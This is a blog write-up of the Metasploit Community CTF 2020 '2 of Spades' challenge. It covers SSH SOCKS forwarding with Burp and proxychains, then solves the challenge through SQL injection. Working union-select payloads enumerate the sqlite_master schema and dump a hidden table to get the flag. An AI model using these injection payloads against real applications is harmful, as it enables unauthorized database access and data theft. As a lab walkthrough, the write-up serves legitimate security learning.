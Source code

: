 ```yaml
---
layout: post
title: WRITE UP - Metasploit Community CTF 2020 - 2 of Spades
date: 2022-02-19
---
```


# Writeup - Metasploit Community CTF 2020 - 2 of Spades

**This article was initially published in my former blog on the 19th of December 2020**

## Setting up the attacking machine

### Access through a browser and use of Burp or another proxy

I wanted to explain the set up in details because i really think it is useful for any one who would like to play CTF and access the target through a browser when the connexion to the attacking machine is made with ssh.

So this introduction aims to be userful for any CTF or even as a daily practice at your job.

You will have to use -D et -C while launching the command

```
sudo ssh -C -i metasploit_ctf_kali_ssh_key.pem kali@<REMOTE-IP> -D 4444
```

-D specify the local port you wish to use for forwarding

-C is the Compression

-i to specify the location of the key file 

Then we need to set up burp under the User options tab (it can also be made under Project options, it depends if you wish to keep permanently or just for a specific project).  

![Burp Setup](/img/burp-metasploitctf-2020.png){: width="500" }  

Then you can configure your browser proxy as it is usually done when you use Burpsuite (note: this picture is of [foxyproxy](https://web.archive.org/web/20210411045400/https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) a browser add on that i would recommend to anyone who often works on Web Pentest):  
![Proxy Settings in browser](/img/proxy-set-up-metasploitctf-2020.png){: width="500" }  

### Proxychains

For this CTF my team mate CptButtStuff was using proxychains which is an amazing tool to launch a local program.

Here is how to set it up:  

Open a new tab and run ssh again as follow using another port than the one you used for burp:
```
sudo ssh -i metasploit_ctf_kali_ssh_key.pem kali@<REMOTE-IP> -D 5555
```

Edit the proxychains conf file `/etc/proxychains.conf`:  

```
socks5          127.0.0.1 5555
```

And then you can launch a program you wish using proxychains (here i am using nmap):

```
proxychains nmap <IP-ADDRESS>
```

### Cool! But how can i get file from the remote host to my local machine?

You can use scp as follow:
```
scp -i private_key.pem username@remote:/path/to/file /local/dir
```

## The Challenge

Now that we have a set up ready (and not only for this chal 😀 ) we can work on 2 of spades

On port 9001 the service was http (see below the extract of my nmap scan)
```
9001/tcp open  http        Thin httpd
|_http-server-header: thin
```

When we browse to this page we get a form:  

![Form](/img/form-metasploitctf-2020.png){: width="500" }  

One of the first thing that comes in mind with a form is sql injection so i tried this, and got a nice error disclosing plenty of info:

```
' Union select 1, 2 --
```

![SQL Injection](/img/sqli-metasploitctf-2020.png){: width="500" }  

This basically means that we need to try to add another col 

And there we go:  
![SQL Injection working payload](/img/sqli-woring-payload-metasploitctf-2020.png){: width="500" }  

Now that we know that the backend DB is sqlite let’s find cool payloads to dump the database:

- [SQLite SQLI Cheat Sheet - Unicorn as Fuel](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)

|   |   |
|---|---|
| Table name enumeration | SELECT name FROM sqlite_master WHERE type=’table’ |  
| Table schema enumeration | SELECT sql FROM sqlite_master WHERE type=’table’ |  
|   |   |
 
*Chosen Payloads*  
I used this one and got the schema of the table
```
' Union SELECT null, null, sql FROM sqlite_master WHERE type='table' --
```
![Schema of the table](/img/schema-table-metasploitctf-2020.png){: width="500" }  

The first line is exactly the one we need so now we can query the information we need to get the flag:

```
' Union SELECT 1, flag, link from hidden --
```

![Get the flag](/img/flag-metasploitctf-2020.png){: width="500" }  

And there we have our flag we just need to wget our png file and md5sum it to get the flag:

```
wget http://<IP>/eGHaMBu2XWvRA5cu/2_of_spades.png
md5sum 2_of_spades.png
```

![Image of the flag](/img/img-flag-metasploitctf-2020.png){: width="500" }  